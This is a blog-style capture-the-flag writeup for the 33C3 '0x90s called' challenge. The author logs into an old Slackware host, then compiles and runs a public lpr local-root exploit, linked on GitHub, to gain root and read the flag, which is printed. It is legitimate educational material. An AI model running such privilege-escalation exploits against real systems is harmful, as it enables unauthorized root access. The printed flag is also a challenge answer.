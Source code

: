 ```yaml
---
title: '[33C3 CTF] The 0x90s called Writeup'
author: Megabeets
type: post
date: 2016-12-29T20:00:28+00:00
url: /33c3-ctf-0x90s-called-writeup/
sharing_disabled:
  - 1
categories:
  - 33C3 CTF
  - Writeups
tags:
  - 33C3
  - CTF
  - PWN
  - Writeups

---
```

### **Description:**

> **The 0x90s called &#8211; PWN**
> 
> The 0x90s called, they want their vulns back!  
> [Pwn this and get the flag.][1] Who would&#8217;ve thought?  
> If you want to try it locally first, [check this out][2].

This challenge was pretty simple and obvious. We are given with a website that is requesting a &#8216;proof of work&#8217; from us to reduce the load on their infrastructure. We need to press start and then we get a port to which we can connect using `netcat`, username and password. We connect to the server and search for the flag.

<pre class="lang:sh mark:3,11,14 decode:true">Megabeets:~# nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ls -la / | grep flag
-r--------   1 root     root           36 Dec 27  1916 flag.txt
slack:~$</pre>

Look at the highlighted rows. We can see that we are in _Slack Linux 0.99pl12_ machine, that _flag.txt_ is on the root folder and that only _root_ can read it. Before trying anything special or complicated, lets search online for known exploit to this version.

[<img data-attachment-id="795" data-permalink="https://www.megabeets.net/33c3-ctf-0x90s-called-writeup/90s_called_1/#main" data-orig-file="http://www.megabeets.net/uploads/90s_called_1.png" data-orig-size="792,249" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="90s_called_1" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/90s_called_1-300x94.png" data-large-file="http://www.megabeets.net/uploads/90s_called_1.png" decoding="async" loading="lazy" class="aligncenter size-full wp-image-795" src="http://www.megabeets.net/uploads/90s_called_1.png" alt="90s_called_1" width="792" height="249" srcset="https://www.megabeets.net/uploads/90s_called_1.png 792w, https://www.megabeets.net/uploads/90s_called_1-150x47.png 150w, https://www.megabeets.net/uploads/90s_called_1-300x94.png 300w, https://www.megabeets.net/uploads/90s_called_1-768x241.png 768w" sizes="(max-width: 792px) 100vw, 792px" />][3]Oh, this was easy! There&#8217;s a known exploit available on _Github_.



Lets run it to see if it works, and if so read the flag.

<pre class="lang:sh decode:true">slack:~$ gcc exploit.c -o exploit
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ./exploit
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3</pre>

&nbsp;

It worked just fine (thanks [prdelka][4] for the exploit)! We got _root_ permissions and were able to read the flag.  
**Flag**: _33C3\_Th3\_0x90s\_w3r3\_pre3tty_4w3s0m3_

I’ll be happy to read in the comments how the challenge was for you.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: http://78.46.224.70:8080/
 [2]: https://33c3ctf.ccc.ac/uploads/qemu-xmas-slackware.tar.xz
 [3]: http://www.megabeets.net/uploads/90s_called_1.png
 [4]: https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c